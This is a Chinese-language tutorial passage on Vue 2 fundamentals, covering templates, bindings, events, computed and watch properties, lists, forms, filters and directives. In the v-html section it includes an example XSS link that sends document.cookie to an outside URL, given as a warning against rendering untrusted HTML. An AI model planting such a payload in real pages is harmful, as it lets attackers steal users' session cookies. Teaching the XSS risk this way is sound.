## 1、vue 基础
> 官网：[https://v2.cn.vuejs.org/](https://v2.cn.vuejs.org/)
>

### 1.1 vue 简介
#### （1）vue 是什么


#### （2）vue 的发展历程


#### （3）vue 的特点
1. 采用`组件化模式`，提高代码复用率，切让代码更好维护



2. `声明式`编码，让编码人员无需直接操作DOM，提高开发效率



3. 使用`虚拟DOM`+优秀的`Diff算法`，尽量复用DOM节点



### 1.2 搭建开发环境
首先安装 vue (不用脚手架)



安装之后会得到两个 js 文件（任选1）


引入 vue.js ，并编写代码



打开浏览器控制台，会发现出现了两个提示



> 解决提示1：下载开发者工具  谷歌应用商店-->搜索`vue_dev_tools.crx` --> 下载
>
> 解决提示2：`Vue.config.productionTip = false`
>

### 1.3 初识 vue
+ 想让 vue 工作，就必须创建一个 vue 实例，且要传入一个配置对象
+ root 容器里的代码依然符合 html 规范，只不过混入了一些特殊的 vue 语法
+ root 容器里的代码被称为【vue 模板】
+ vue 实例和容器是一一对应的
+ 真实开发中只有一个 vue 实例，并且会配合着其他组件一起使用
+ {{xxx}}中的xxx要写 js 表达式，且xxx可以自动读取 data 中的所有属性
+ 一旦 data中 的数据发送改变，那么模板中用到该数据的地方也会自动跟新

```vue
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>初始vue</title>
    <!-- 引入 vue -->
    <script src="./js/vue.js"></script>

</head>

<body>
    <!-- 准备好一个容器 -->
    <div id="root">
        <h1>hello,{{name}}</h1>

    </div>

    <script>
        // 设置为 false 以阻止 vue 在启动时生成生产提示
        Vue.config.productionTip = false
        // 创建 vue 实例
        new Vue({
            el: '#root', // el用于指定当前 vue 实例为哪个容器服务，值通常是 css 选择器字符串
            data: { // data 中用于存储数据，数据供 el 所指定的容器去使用，值我们暂时写成一个对象
                name: '张三'
            }
        })
    </script>

</body>

</html>

```

### 1.4 模板语法
#### （1）插值语法
功能：用于解析标签体内容

语法：`{{xxx}}`，xxx是 js 表达式，且可以直接读取到 data 中的所有属性

代码示例：

```vue
<!-- 准备好一个容器-->
<div id="root">
    <h3>{{name}}</h3>
</div>

<script>
    new Vue({
        el:'#root',
        data:{
            name:'jack',
        }
    })
</script>
```

#### （2）指令语法
功能：用于解析标签（包括：标签属性、标签体内容、绑定事件.....）

语法：`v-bind:href="xxx" `或  简写为` :href="xxx"`，xxx同样要写js表达式，且可以直接读取到data中的所有属性

> 注：Vue中有很多的指令，且形式都是：v-???，此处我们只是拿v-bind举个例子
>

代码示例：

```vue
<!-- 准备好一个容器-->
<div id="root">
    <a v-bind:href="url">百度</a>
</div>

<script>
    new Vue({
        el:'#root',
        data:{
            url:'http://www.baidu.com'
        }
    })
</script>

```

### 1.5 数据绑定
#### （1）单向绑定(v-bind)
特点：数据只能从data流向页面



语法：`v-bind:href="xxx" `或  简写为` :href="xxx"`，xxx同样要写js表达式，且可以直接读取到data中的所有属性

代码示例：

```vue
<!-- 准备好一个容器-->
<div id="root">
    单向数据绑定：<input type="text" v-bind:value="name"><br/>
    单向数据绑定：<input type="text" :value="name"><br/>
</div>

</body>

<script>
    new Vue({
        el:'#root',
        data:{
            name:'尚硅谷'
        }
    })
</script>

```

#### （2）双向绑定(v-model)
特点：数据不仅能从data流向页面，还可以从页面流向data



语法：`v-model:value="name" `或  简写为`v-model="name" `

代码示例：

```vue
<!-- 准备好一个容器-->
<div id="root">
双向数据绑定：<input type="text" v-model:value="name"><br/>
双向数据绑定：<input type="text" v-model="name">
</div>

<script>
    new Vue({
        el:'#root',
        data:{
            name:'尚硅谷'
        }
    })
</script>
```

> 双向绑定一般都应用在表单类元素上（如：input、select等）
>
> v-model:value 可以简写为 v-model，因为v-model默认收集的就是value值
>

### 1.6 el 和 data 的写法
#### （1）el 的两种写法
1. new Vue时候配置el属性

```vue
new Vue({
    el:'#root'
})
```

2. 先创建Vue实例，随后再通过`vm.$mount('#root')`指定el的值

```vue
new Vue({...})
vm.$mount('#root')
```

#### （2）data 的两种写法
1. 对象式

```vue
new Vue({
    el:'#root',
    data:{
        name:'张三'
    }
})
```

2. 函数式

```vue
new Vue({
    el:'#root',
    data(){
        console.log('@@@',this) //此处的this是Vue实例对象
        return{
            name:'张三'
        }
    }
})
```

> 由Vue管理的函数，一定不要写箭头函数，一旦写了箭头函数，this就不再是Vue实例了
>

### 1.7 MVVM模型
+ M：模型(Model) ：data中的数据
+ V：视图(View) ：模板代码
+ VM：视图模型(ViewModel)：Vue实例





### 1.8 数据代理
#### （1）Object.defineproperty
`Object.defineproperty` 可以给对象添加属性

```javascript
let number = 18
let person = {
    name:'张三',
    sex:'男',
}

Object.defineProperty(person,'age',{
    // value:18,
    // enumerable:true, //控制属性是否可以枚举，默认值是false
    // writable:true, //控制属性是否可以被修改，默认值是false
    // configurable:true //控制属性是否可以被删除，默认值是false

    //当有人读取person的age属性时，get函数(getter)就会被调用，且返回值就是age的值
    get(){
        console.log('有人读取age属性了')
        return number
    },

    //当有人修改person的age属性时，set函数(setter)就会被调用，且会收到修改的具体值
    set(value){
        console.log('有人修改了age属性，且值是',value)
        number = value
    }
})

console.log(Object.keys(person))
console.log(person)
```

#### （2）什么是数据代理
通过一个对象代理对另一个对象中属性的操作（读/写）

```javascript
let obj = { x: 100 }
let obj2 = { y: 100 }

// 用 obj2 来代理 obj
Object.defineProperty(obj2, 'x', {
    // 通过 obj2 来读取 obj
    get() {
        return obj.x
    },
    // 通过 obj2 来修改 obj
    set(value) {
        obj.x = value
    }
})
```

#### （3）vue 中的数据代理
1.vue 中的数据代理：

通过 vm 对象来代理 data 对象中属性的操作（读/写）

2.vue 中数据代理的好处：

更加方便的操作 data 中的数据

3.基本原理：

+ 通过 Object.defineProperty() 把 data 对象中所有属性添加到 vm 上
+ 为每一个添加到 vm 上的属性，都指定一个 getter/setter
+ 在 getter/setter 内部去操作（读/写）data中对应的属性



### 1.9 事件绑定
#### （1）事件的基本使用
+ 使用`v-on:xxx` 或 `@xxx `绑定事件，其中xxx是事件名
+ 事件的回调需要配置在`methods`对象中，最终会在 `vm` 上
+ methods 中配置的函数，不要用箭头函数！否则`this`就不是`vm`了
+ methods 中配置的函数，都是被 vue 所管理的函数，this的指向是vm 或 组件实例对象
+ `@click="demo"` 和 `@click="demo($event,arg)"` 效果一致，但后者可以传参

```vue
<!-- 准备好一个容器-->
<div id="root">
    <h2>{{name}}</h2>
    <button v-on:click=showInfo>事件绑定（不简写,不传参）</button>
    <button @click=showInfo>事件绑定（简写，不传参）</button>
    <button @click=showInfo2($event,666)>事件绑定（简写，传参）</button>
</div>

<script>
    const vm = new Vue({
        el: '#root',
        data: {
            name: '事件的基本使用'
        },
        methods: {
            showInfo() {
                alert('事件绑定!')
            },
            showInfo2(event, number) {
                console.log(this) // 此处的this是vm
                alert('事件绑定!!' + number)
            }
        }
    })
</script>
```

> 绑定事件的时候：@xxx="yyy" yyy可以写一些简单的语句，
>
> 如：<button `@click="isHot = !isHot"`>切换天气
>

#### （2）事件修饰符
| 修饰符 | 功能 |
| --- | --- |
| `prevent` | 阻止默认事件（常用） |
| `stop` | 阻止事件冒泡（常用） |
| `once` | 事件只触发一次（常用） |
| `capture` | 使用事件的捕获模式 |
| `self` | 只有event.target是当前操作的元素时才触发事件 |
| `passive` | 事件的默认行为立即执行，无需等待事件回调执行完毕 |


```vue
<!-- 准备好一个容器-->
<div id="root">
    <h2>{{name}}</h2>
    <!-- 阻止默认事件（常用） -->
    <a href="www.baidu.com" @click.prevent="showInfo">阻止默认事件（常用）</a>

    <!-- 阻止事件冒泡（常用） -->
    <div class="demo1" @click="showInfo">
        <button @click.stop="showInfo">阻止事件冒泡（常用）</button>

    </div>

    <!-- 事件只触发一次（常用） -->
    <button @click.once="showInfo">事件只触发一次（常用）</button>

    <!-- 使用事件的捕获模式 -->
    <div class="box1" @click.capture="showMsg(1)">
        使用事件的捕获模式-父
        <div class="box2" @click="showMsg(2)">
            使用事件的捕获模式-子
        </div>
    </div>

    <!-- 只有event.target是当前操作的元素时才触发事件； -->
    <div class="demo1" @click.self="showInfo">
        <button @click="showInfo">点我提示信息</button>
    </div>

    <!-- 事件的默认行为立即执行，无需等待事件回调执行完毕； -->
    <ul @wheel.passive="demo" class="list">
        <li>1</li>
        <li>2</li>
        <li>3</li>
        <li>4</li>
    </ul>
</div>

<script>
    Vue.config.productionTip = false // 阻止 vue 在启动时生成生产提示
    const vm = new Vue({
        el: '#root',
        data: {
            name: '事件修饰符'
        },
        methods: {
            showInfo() {
                alert('事件修饰符')
            },
            showMsg(msg) {
                console.log(msg)
            },
            demo() {
                for (let i = 0; i < 100000; i++) {
                    console.log('#')
                }
                console.log('累坏了')
            }
        }
    })
</script>
```

> 修饰符可以连续写：`@click.prevent.stop="xxx"`
>

#### （3）键盘事件
1.vue 中常用的按键别名：

| 别名 | 按键 |
| --- | --- |
| `enter` | 回车 |
| `delete` (捕获“删除”和“退格”键) | 删除 |
| `esc` | 退出 |
| `space` | 空格 |
| `tab `(特殊，必须配合keydown去使用) | 换行 |
| ` up` | 上 |
| `down` | 下 |
| `left` | 左 |
| `right` | 右 |


2.vue 未提供别名的按键，可以使用按键原始的key值去绑定，但注意要转为 kebab-case（短横线命名）

3.系统修饰键（用法特殊）：ctrl、alt、shift、meta

+ 配合 keyup 使用：按下修饰键的同时，再按下其他键，随后释放其他键，事件才被触发
+ 配合 keydown 使用：正常触发事件

4.也可以使用 keyCode 去指定具体的按键（不推荐）

5.`Vue.config.keyCodes.自定义键名 = 键码`，可以去定制按键别名

```vue
<!-- 准备好一个容器-->
<div id="root">
    <h2>{{name}}</h2>
    <input type="text" placeholder="按下回车提示输入" @keyup="showInfo">
    <input type="text" placeholder="按下回车提示输入" @keydown.huiche="showInfo">
</div>

<script>
    Vue.config.keyCodes.huiche = 13 //定义了一个别名按键
    const vm = new Vue({
        el: '#root',
        data: {
            name: '键盘事件'
        },
        methods: {
            showInfo(e) {
                console.log(e.key, e.keyCode)
                console.log(e.target.value)
            }
        }
    })
</script>
```

### 1.10 计算属性
1.定义：要用的属性不存在，要通过已有属性计算得来

2.原理：底层借助了 `Objcet.defineproperty` 方法提供的 `getter` 和 `setter`

3.get函数什么时候执行？

+ 初次读取时会执行一次
+ 当依赖的数据发生改变时会被再次调用

4.优势：与 `methods` 实现相比，内部有缓存机制（复用），效率更高，调试方便

> 计算属性最终会出现在 vm 上，直接读取使用即可
>
> 如果计算属性要被修改，那必须写 set 函数去响应修改，且 set 中要引起计算时依赖的数据发生改变
>

```vue
<!-- 准备好一个容器-->
<div id="root">
    姓：<input type="text" v-model="firstName"> <br><br>
    名：<input type="text" v-model="lastName"> <br><br>
    全名：<span>{{fullName}}</span>
</div>

<script>
    const vm = new Vue({
        el: '#root',
        data: {
            firstName: '张',
            lastName: '三'
        },
        computed: {
            fullName: {
                //get有什么作用？当有人读取fullName时，get就会被调用，且返回值就作为fullName的值
                //get什么时候调用？1.初次读取fullName时。2.所依赖的数据发生变化时。
                get() {
                    console.log('get被调用了')
                    // console.log(this) //此处的this是vm
                    return this.firstName + '-' + this.lastName
                },
                //set什么时候调用? 当fullName被修改时。
                set(value) {
                    console.log('set', value)
                    const arr = value.split('-')
                    this.firstName = arr[0]
                    this.lastName = arr[1]
                }
                // 如果只有 get 可以简写，此时整个函数当成 get 使用
                /* fullName(){
                      console.log('get被调用了')
                      return this.firstName + '-' + this.lastName
                } */    
            }
        }
    })
</script>

```

### 1.11 监视属性
#### （1）监视属性基本使用
1.当被监视的属性变化时, 回调函数自动调用, 进行相关操作

2.监视的属性必须存在，才能进行监视

3.监视的两种写法：

+ new Vue时传入`watch`配置
+ 通过`vm.$watch`监视

```vue
<!-- 准备好一个容器-->
<div id="root">
    <h2>今天天气很{{info}}</h2>
    <button @click="changeWeather">切换天气</button>
</div>

<script>
    const vm = new Vue({
        el: '#root',
        data: {
            isHot: true,
        },
        computed: {
            info() {
                return this.isHot ? '炎热' : '凉爽'
            }
        },
        methods: {
            changeWeather() {
                this.isHot = !this.isHot
            }
        },
        // 第一种写法
        /* watch:{
            isHot:{
                immediate:true, //初始化时让handler调用一下
                //handler什么时候调用？当isHot发生改变时。
                handler(newValue,oldValue){
                    console.log('isHot被修改了',newValue,oldValue)
                }
            }
            // 简写
            isHot(newValue,oldValue){
                console.log('isHot被修改了',newValue,oldValue,this)
            }
        } */
    })

    // 第二种写法
    vm.$watch('isHot', {
        immediate: true, //初始化时让handler调用一下
        //handler什么时候调用？当isHot发生改变时。
        handler(newValue, oldValue) {
            console.log('isHot被修改了', newValue, oldValue)
        }
    })
    // 简写
    /* vm.$watch('isHot',function(newValue,oldValue){
        console.log('isHot被修改了',newValue,oldValue
    }) */
</script>
```

#### （2）深度监视
1.vue 中的 `watch` 默认不监测对象内部值的改变（一层）

2.配置`deep:true`可以监测对象内部值改变（多层）

> vue 自身可以监测对象内部值的改变，但 vue 提供的 watch 默认不可以
>
> 使用 watch 时根据数据的具体结构，决定是否采用深度监视
>

```vue
<!-- 准备好一个容器-->
<div id="root">
    <h3>a的值是:{{numbers.a}}</h3>
    <button @click="numbers.a++">点我让a+1</button>
    <h3>b的值是:{{numbers.b}}</h3>
    <button @click="numbers.b++">点我让b+1</button>
</div>

<script>
    const vm = new Vue({
        el: '#root',
        data: {
            numbers: {
                a: 1,
                b: 1
            }
        },
        watch: {
            numbers: {
                // 开启深度监视
                deep: true,
                handler() {
                    console.log('number中的值改变了')
                }
            }
        }
    })
</script>

```

### 1.12 计算属性 vs 监视属性
1.`computed`和`watch`之间的区别：

+ computed 能完成的功能，watch 都可以完成
+ watch 能完成的功能，computed 不一定能完成，例如：watch 可以进行异步操作

2.两个重要的小原则：

+ 所被 Vue 管理的函数，最好写成普通函数，这样 this 的指向才是 vm 或 组件实例对象
+ 所有不被 Vue 所管理的函数（定时器的回调函数、ajax 的回调函数等、Promise 的回调函数），最好写成箭头函数，这样 this 的指向才是 vm 或 组件实例对象

3.举个例子

用`computed`实现如下：

```vue
<!-- 准备好一个容器-->
<div id="root">
    姓：<input type="text" v-model="firstName"> <br><br>
    名：<input type="text" v-model="lastName"> <br><br>
    全名：<span>{{fullName}}</span>
</div>

<script>
    const vm = new Vue({
        el: '#root',
        data: {
            firstName: '张',
            lastName: '三'
        },
        computed: {
            fullName(){
                return this.firstName + '-' + this.lastName   
            }
        }
    })
</script>
```

用`watch`实现如下

```vue
<!-- 准备好一个容器-->
<div id="root">
    姓：<input type="text" v-model="firstName"> <br><br>
    名：<input type="text" v-model="lastName"> <br><br>
    全名：<span>{{fullName}}</span>
</div>

<script>
    const vm = new Vue({
        el: '#root',
        data: {
            firstName: '张',
            lastName: '三',
            fullName: '张-三'
        },
        watch: {
            firstName(val) {
                setTimeout(() => {
                    console.log(this)
                    this.fullName = val + '-' + this.lastName
                }, 1000);
            },
            lastName(val) {
                this.fullName = this.firstName + '-' + val
            }
        }
    })
</script>
```

### 1.13 绑定样式
1.class样式

写法`:class="xxx"` xxx可以是字符串、对象、数组

+ `字符串写法`：适用于 类名不确定，要动态获取
+ `对象写法`：适用于 要绑定多个样式，个数不确定，名字也不确定
+ `数组写法`：适用于 要绑定多个样式，个数确定，名字也确定，但不确定用不用
2. style样式
+ `:style="{fontSize: xxx}"`其中xxx是动态值
+ `:style="[a,b]"`其中a、b是样式对象

```vue
<style>
    .basic {...}
    .happy {...}
    .sad {...}
    .normal {...}
    .style1 {...}
    .style2 {...}
    .style3 {...}
</style>

<!-- 准备好一个容器-->
<div id="root">
    <!-- 绑定class样式--字符串写法，适用于：样式的类名不确定，需要动态指定 -->
    <div class="basic" :class="mood" @click="changeMood">{{name}}</div> <br><br>

    <!-- 绑定class样式--数组写法，适用于：要绑定的样式个数不确定、名字也不确定 -->
    <div class="basic" :class="classArr">{{name}}</div> <br><br>

    <!-- 绑定class样式--对象写法，适用于：要绑定的样式个数确定、名字也确定，但要动态决定用不用 -->
    <div class="basic" :class="classObj">{{name}}</div> <br><br>

    <!-- 绑定style样式--对象写法 -->
    <div class="basic" :style="styleObj">{{name}}</div> <br><br>
    
    <!-- 绑定style样式--数组写法 -->
    <div class="basic" :style="styleArr">{{name}}</div>

</div>

<script>
    const vm = new Vue({
        el: '#root',
        data: {
            name: '绑定样式',
            mood: 'normal',
            classArr: ['style1', 'style2', 'style3'],
            classObj: {
                style1: false,
                style2: false,
            },
            styleObj: {
                fontSize: '40px',
                color: 'red',
            },
            styleArr: [
                {
                    fontSize: '40px',
                    color: 'blue',
                },
                {
                    backgroundColor: 'gray'
                }
            ]
        },
        methods: {
            changeMood() {
                const arr = ['happy', 'sad', 'normal']
                const index = Math.floor(Math.random() * 3)
                this.mood = arr[index]
            }
        }
    })
</script>

```

### 1.14 条件渲染
#### （1）v-show
写法：`v-show="表达式"`

适用于：切换频率较高的场景

特点：不展示的DOM元素`未被移除`，仅仅是使用样式`隐藏`掉

```vue
<!-- 准备好一个容器-->
<div id="root">
    <h2>当前的n值是:{{n}}</h2>
    <button @click="n++">点我n+1</button>
    <!-- 使用v-show做条件渲染 -->
    <h2 v-show="false">{{name}}</h2>
    <h2 v-show="n === 1">{{name}}</h2>
</div>

<script>
    const vm = new Vue({
        el: '#root',
        data: {
            name: '条件渲染 v-show',
            n: 0
        }
    })
</script>
```

#### （2）v-if
写法：

+ `v-if="表达式" `
+ `v-else-if="表达式"`
+ `v-else="表达式"`

适用于：切换频率较低的场景

特点：不展示的DOM元素直接被`移除`

> v-if 可以和 v-else-if、v-else 一起使用，但要求结构不能被“打断”
>
> 使用v-if的时，元素可能无法获取到，而使用v-show一定可以获取到
>

```vue
<!-- 准备好一个容器-->
<div id="root">
    <h2>当前的n值是:{{n}}</h2>
    <button @click="n++">点我n+1</button>
    <!-- 使用v-if做条件渲染 -->
    <h2 v-if="false">{{name}}</h2>
    <h2 v-if="n === 1">{{name}}</h2>
    <!-- v-else和v-else-if -->
    <div v-if="n === 1">Angular</div>
    <div v-else-if="n === 2">React</div>
    <div v-else-if="n === 3">Vue</div>
    <div v-else>哈哈</div> 
    <!-- v-if与template的配合使用 -->
    <template v-if="n === 1">
        <h2>唱</h2>
        <h2>跳</h2>
        <h2>rap</h2>
    </template>
</div>

<script>
    const vm = new Vue({
        el: '#root',
        data: {
            name: '条件渲染 v-if',
            n: 0
        }
    })
</script>
```

### 1.15 渲染列表
#### （1）v-for 的基本使用
1.语法：`v-for="(item, index) in xxx" :key="yyy"`

2.作用：用于展示列表数据

3.可遍历：数组、对象、字符串（用的很少）、指定次数（用的很少）

```vue
<!-- 准备好一个容器-->
<div id="root">
    <!-- 遍历数组 -->
    <h2>人员列表（遍历数组）</h2>
    <ul>
        <li v-for="(p,index) in persons" :key="index">
            {{p.name}}-{{p.age}}
        </li>
    </ul>

    <!-- 遍历对象 -->
    <h2>汽车信息（遍历对象）</h2>
    <ul>
        <li v-for="(value,k) in car" :key="k">
            {{k}}-{{value}}
        </li>
    </ul>

    <!-- 遍历字符串 -->
    <h2>测试遍历字符串（用得少）</h2>
    <ul>
        <li v-for="(char,index) in str" :key="index">
            {{char}}-{{index}}
        </li>
    </ul>

    <!-- 遍历指定次数 -->
    <h2>测试遍历指定次数（用得少）</h2>
    <ul>
        <li v-for="(number,index) in 5" :key="index">
            {{index}}-{{number}}
        </li>

    </ul>
</div>

<script>
    new Vue({
        el: '#root',
        data: {
            persons: [
                { id: '001', name: '张三', age: 18 },
                { id: '002', name: '李四', age: 19 },
                { id: '003', name: '王五', age: 20 }
            ],
            car: {
                name: '奥迪A8',
                price: '70万',
                color: '黑色'
            },
            str: 'hello'
        }
    })
</script>

```

#### （2）key 的作用与原理
1.虚拟 DOM 中 key 的作用：  
key 是虚拟 DOM 对象的标识，当数据发生变化时，vue 会根据【新数据】生成【新的虚拟DOM】, 

随后Vue进行【新虚拟DOM】与【旧虚拟DOM】的差异比较  
2.比较规则如下：  
（1）旧虚拟 DOM 中找到了与新虚拟 DOM 相同的 key：  
    ① 若虚拟 DOM 中内容没变, 直接使用之前的真实 DOM  
    ② 若虚拟 DOM 中内容变了, 则生成新的真实 DOM，随后替换掉页面中之前的真实 DOM

（2）旧虚拟 DOM 中未找到与新虚拟 DOM 相同的 key  
    ① 创建新的真实 DOM，随后渲染到到页面                     

3.用 index 作为 key 可能会引发的问题：

+ 若对数据进行：逆序添加、逆序删除等破坏顺序操作:  会产生没有必要的真实DOM更新 ==> 界面效果没问题, 但效率低
+ 如果结构中还包含输入类的DOM：  会产生错误DOM更新 ==> 界面有问题
+ 开发中如何选择key?
    - 最好使用每条数据的唯一标识作为 key , 比如 id、手机号、身份证号、学号等唯一值
    - 如果不存在对数据的逆序添加、逆序删除等破坏顺序操作，仅用于渲染列表用于展示，使用index作为key是没有问题的

```vue
<!-- 准备好一个容器-->
<div id="root">
    <!-- 遍历数组 -->
    <h2>人员列表（遍历数组）</h2>
    <button @click.once="add">添加一个老刘</button>
    <ul>
        <li v-for="(p,index) of persons" :key="index">
            {{p.name}}-{{p.age}}
            <input type="text">
        </li>
    </ul>
</div>

<script>
    new Vue({
        el: '#root',
        data: {
            persons: [
                { id: '001', name: '张三', age: 18 },
                { id: '002', name: '李四', age: 19 },
                { id: '003', name: '王五', age: 20 }
            ]
        },
        methods: {
            add() {
                const p = { id: '004', name: '老刘', age: 40 }
                this.persons.unshift(p)
            }
        },
    })
</script>

```





#### （3）列表过滤
用计算属性实现：

```vue
<!-- 准备好一个容器-->
<div id="root">
    <h2>人员列表</h2>
    <input type="text" placeholder="请输入名字" v-model="keyWord">
    <ul>
        <li v-for="(p,index) of filPerons" :key="index">
            {{p.name}}-{{p.age}}-{{p.sex}}
        </li>

    </ul>
</div>

<script>
    new Vue({
        el:'#root',
        data:{
            keyWord:'',
            persons:[
                {id:'001',name:'马冬梅',age:19,sex:'女'},
                {id:'002',name:'周冬雨',age:20,sex:'女'},
                {id:'003',name:'周杰伦',age:21,sex:'男'},
                {id:'004',name:'温兆伦',age:22,sex:'男'}
            ]
        },
        computed:{
            filPerons(){
                return this.persons.filter((p)=>{
                    return p.name.indexOf(this.keyWord) !== -1
                })
            }
        }
    }) 
</script>

```

用监视属性实现：

```vue
<!-- 准备好一个容器-->
<div id="root">
    <h2>人员列表</h2>
    <input type="text" placeholder="请输入名字" v-model="keyWord">
    <ul>
        <li v-for="(p,index) of filPerons" :key="index">
            {{p.name}}-{{p.age}}-{{p.sex}}
        </li>
    </ul>
</div>

<script>
    new Vue({
        el:'#root',
        data:{
            keyWord:'',
            persons:[
                {id:'001',name:'马冬梅',age:19,sex:'女'},
                {id:'002',name:'周冬雨',age:20,sex:'女'},
                {id:'003',name:'周杰伦',age:21,sex:'男'},
                {id:'004',name:'温兆伦',age:22,sex:'男'}
            ],
            filPerons:[]
        },
        watch:{
            keyWord:{
                immediate:true,
                handler(val){
                    this.filPerons = this.persons.filter((p)=>{
                        return p.name.indexOf(val) !== -1
                    })
                }
            }
        }
    })
</script>

```

#### （4）列表排序
```vue
<!-- 准备好一个容器-->
<div id="root">
    <h2>人员列表</h2>
    <input type="text" placeholder="请输入名字" v-model="keyWord">
    <button @click="sortType = 2">年龄升序</button>
    <button @click="sortType = 1">年龄降序</button>
    <button @click="sortType = 0">原顺序</button>
    <ul>
        <li v-for="(p,index) of filPerons" :key="p.id">
            {{p.name}}-{{p.age}}-{{p.sex}}
        </li>
    </ul>
</div>

<script>
    new Vue({
        el: '#root',
        data: {
            keyWord: '',
            sortType: 0, //0原顺序 1降序 2升序
            persons: [
                { id: '001', name: '马冬梅', age: 30, sex: '女' },
                { id: '002', name: '周冬雨', age: 31, sex: '女' },
                { id: '003', name: '周杰伦', age: 18, sex: '男' },
                { id: '004', name: '温兆伦', age: 19, sex: '男' }
            ]
        },
        computed: {
            filPerons() {
                const arr = this.persons.filter((p) => {
                    return p.name.indexOf(this.keyWord) !== -1
                })
                //判断一下是否需要排序
                if (this.sortType) {
                    arr.sort((p1, p2) => {
                        return this.sortType === 1 ? p2.age - p1.age : p1.age - p2.age
                    })
                }
                return arr
            }
        }
    })
</script>

```

#### （5）vue 检测数据改变的原理
### 1.16 收集表单数据
1.若：`<input type="text"/>`，则 v-model 收集的是 value 值，用户输入的就是 value 值

2.若：`<input type="radio"/>`，则 v-model 收集的是 value 值，且要给标签配置 value 值

3.若：`<input type="checkbox"/>`

（1）没有配置 input 的 `value` 属性，那么收集的就是 checked（勾选 or 未勾选，`是布尔值`）

（2）配置 input 的 `value` 属性:

        ① v-model 的初始值是`非数组`，那么收集的就是 checked（勾选 or 未勾选，是`布尔值`）
    
        ② v-model 的初始值是`数组`，那么收集的的就是 value 组成的`数组`

> v-model的三个修饰符：
>
> + lazy：失去焦点再收集数据
> + number：输入字符串转为有效的数字
> + trim：输入首尾空格过滤
>

```vue
<!-- 准备好一个容器-->
<div id="root">
    <form @submit.prevent="demo">
        账号：<input type="text" v-model.trim="userInfo.account"> <br /><br />
        密码：<input type="password" v-model="userInfo.password"> <br /><br />
        年龄：<input type="number" v-model.number="userInfo.age"> <br /><br />
        性别：
        男<input type="radio" name="sex" v-model="userInfo.sex" value="male">
        女<input type="radio" name="sex" v-model="userInfo.sex" value="female"> <br /><br />
        爱好：
        学习<input type="checkbox" v-model="userInfo.hobby" value="study">
        打游戏<input type="checkbox" v-model="userInfo.hobby" value="game">
        吃饭<input type="checkbox" v-model="userInfo.hobby" value="eat">
        <br /><br />
        所属校区
        <select v-model="userInfo.city">
            <option value="">请选择校区</option>
            <option value="beijing">北京</option>
            <option value="shanghai">上海</option>
            <option value="shenzhen">深圳</option>
            <option value="wuhan">武汉</option>
        </select>
        <br /><br />
        其他信息：
        <textarea v-model.lazy="userInfo.other"></textarea> <br /><br />
        <input type="checkbox" v-model="userInfo.agree">阅读并接受<a href="http://www.baidu.com">《用户协议》</a>
        <button>提交</button>
    </form>
</div>

<script>
    new Vue({
        el: '#root',
        data: {
            userInfo: {
                account: '',
                password: '',
                age: 18,
                sex: 'female',
                hobby: [],
                city: 'beijing',
                other: '',
                agree: ''
            }
        },
        methods: {
            demo() {
                console.log(JSON.stringify(this.userInfo))
            }
        }
    })
</script>

```

### 1.17 过滤器
 定义：对要显示的数据进行特定格式化后再显示（适用于一些简单逻辑的处理）

语法：

1. 注册过滤器：`Vue.filter(name,callback)` 或 `new Vue{filters:{}}`
2. 使用过滤器：`{{ xxx | 过滤器名}}`  或  `v-bind:属性 = "xxx | 过滤器名"`

>  备注：
>
> 1. 过滤器也可以接收额外参数、多个过滤器也可以串联
> 2. 并没有改变原本的数据, 是产生新的对应的数据
>

```javascript
<div id="root">
    <h2>源数据：{{time}}</h2>
    <h2>过滤器实现：{{time | timeFormater}}</h2>
    <h2>过滤器实现（传参）：{{time | timeFormater("YYYY_MM_DD")}}</h2>
    <h2>全局过滤器：{{time | timeFormater('YYYY_MM_DD') | mySlice}}</h2>
</div>

<div id="root2">
    <h2>全局过滤器：{{msg | mySlice}}</h2>
</div>

<script>
// 全局过滤器
Vue.filter('mySlice', function (value) {
    return value.slice(0, 3)
})

new Vue({
    el: '#root',
    data: {
        time: 1621561377603, //时间戳
    },
    filters: {
        timeFormater(value, str = "YYYY年MM月DD日 HH:mm:ss") {
            return dayjs(value).format(str)
        }
    }
})

new Vue({
    el: '#root2',
    data: {
        msg: '过滤器的使用'
    }
})
</script>

```

### 1.18 内置指令
>     我们学过的指令：
>
> + v-bind  : 单向绑定解析表达式, 可简写为 :xxx
> + v-model : 双向数据绑定
> + v-for  : 遍历数组/对象/字符串
> + v-on   : 绑定事件监听, 可简写为@
> + v-if     : 条件渲染（动态控制节点是否存存在）
> + v-else  : 条件渲染（动态控制节点是否存存在）
> + v-show  : 条件渲染 (动态控制节点是否展示)
>

#### （1）v-text 指令
1.作用：向其所在的节点中渲染文本内容

2.与插值语法的区别：v-text会替换掉节点中的内容，{{xx}}则不会

```vue
<!-- 准备好一个容器-->
<div id="root">
    <div>{{name}}</div>
    <div v-text="name"></div>
    <div v-text="str"></div> <!-- 不会解析 html-->
</div>

<script>
    new Vue({
        el: '#root',
        data: {
            name: 'v-text 指令',
            str: '<h3>v-text 指令</h3>'
        }
    })
</script>

```

#### （2）v-html 指令
1.作用：向指定节点中渲染包含html结构的内容

2.与插值语法的区别：

+ v-html会替换掉节点中所有的内容，{{xx}}则不会
+ v-html可以识别html结构

3.严重注意：v-html 有安全性问题！！！！

+ 在网站上动态渲染任意HTML是非常危险的，容易导致XSS攻击
+ 一定要在可信的内容上使用v-html，永不要用在用户提交的内容上

```vue
<!-- 准备好一个容器-->
<div id="root">
    <div>{{name}}</div>
    <div v-html="name"></div>
    <div v-html="str"></div>
    <div v-html="str2"></div>
</div>

<script>
    new Vue({
        el: '#root',
        data: {
            name: 'v-html 指令',
            str: '<h3>v-html 指令</h3>',
            str2: '<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>点击就送</a>',
        }
    })
</script>

```

#### （3）v-cloak指令
1.本质是一个特殊属性，Vue 实例创建完毕并接管容器后，会删掉 v-cloak 属性

2.使用 css 配合 v-cloak 可以解决网速慢时页面展示出 {{xxx}} 的问题

```vue
<style>
    [v-cloak] {
        display: none;
    }
</style>

<div id="root">
    <h2 v-cloak>{{name}}</h2>
</div>

<script type="text/javascript" src="http://localhost:8080/resource/5s/vue.js"></script>

<script type="text/javascript">
    new Vue({
        el: '#root',
        data: {
            name: 'v-cloak 指令'
        }
    })
</script>

```

#### （4）v-once指令
1.v-once 所在节点在初次动态渲染后，就视为静态内容了

2.以后数据的改变不会引起 v-once 所在结构的更新，可以用于优化性能

```vue
<!-- 准备好一个容器-->
<div id="root">
    <h2 v-once>初始化的n值是:{{n}}</h2>
